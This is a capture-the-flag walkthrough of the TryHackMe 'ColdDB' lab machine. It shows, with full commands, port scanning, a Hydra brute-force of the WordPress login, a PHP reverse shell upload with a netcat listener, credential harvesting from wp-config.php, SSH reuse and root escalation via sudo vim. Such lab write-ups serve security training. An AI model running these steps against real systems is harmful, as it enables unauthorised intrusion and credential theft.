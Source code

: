 # TryHackMe - ColdDB (Easy)

Detailed walkthrough of the "ColdDB" machine on TryHackMe.  
Objective: Gain root access by moving from web enumeration to privilege escalation via Vim.

---

## 🧭 Overview

This machine simulates a typical web-to-root scenario. The goal is to exploit a vulnerable WordPress site to gain a foothold, extract credentials, access the system via SSH, and escalate privileges using a misconfigured `vim` binary.

---

## 1. 🔍 Port Scanning

Initial full TCP port scan:

```bash
nmap -p- -T5 10.10.158.121
Open ports found:

    80 (HTTP)

    4512 (SSH on a non-standard port)

Service/version detection:Nothing obvious on the homepage. Using Gobuster:

gobuster dir -u http://10.10.158.121 -w /usr/share/wordlists/rockyou.txt

Discovered /Hidden, which contains a message:

    C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. – Philip

This reveals a potential valid username: C0ldd.

I first tested common credentials like admin:admin and admin:password — no success.

Trying the username C0ldd manually returned a WordPress error indicating that the password is incorrect, meaning the username is valid.

Brute-force attack with Hydra:
hydra -l C0ldd -P /usr/share/wordlists/rockyou.txt 10.10.158.121 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect" -V

Login successful. Access to the WordPress admin panel is now available at /wp-admin.

From the WordPress admin panel, I uploaded a Pentestmonkey PHP reverse shell.
However, it didn't appear in the usual plugins folder. After some digging, I found it uploaded here:
/wp-content/uploads/2025/05/shell.php
nc -lvnp 4444

Triggering the URL launched the reverse shell successfully.

From the initial shell, I tried reading /home/c0ldd/user.txt but lacked permission.

I searched the WordPress config file:
cat /var/www/html/wp-config.php

It contained database credentials — which also worked via SSH:
ssh -p 4512 c0ldd@10.10.158.121

After connecting, I was able to read the user flag:
cat /home/c0ldd/user.txt
It was Base64-encoded:

echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 --decode

→ Felicidades, primer nivel conseguido!

6. Privilege Escalation

Checked sudo permissions:

sudo -l

Found that vim could be executed as root. Based on GTFOBins:

sudo vim -c ':!/bin/sh'

Confirmed root access with:

whoami
# root

7. Root Flag

Read the root flag:

cat /root/root.txt

It was also Base64-encoded:

echo "wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=" | base64 --decode

→ ¡Felicidades, máquina completada!


    Skills Demonstrated

    Full-range port scanning with Nmap

    Web directory fuzzing (Gobuster)

    WordPress user enumeration & brute-force

    Reverse shell upload via admin panel

    Credential harvesting from wp-config.php

    SSH login on custom port

    Privilege escalation via sudo + GTFOBins

    Base64 decoding of flags




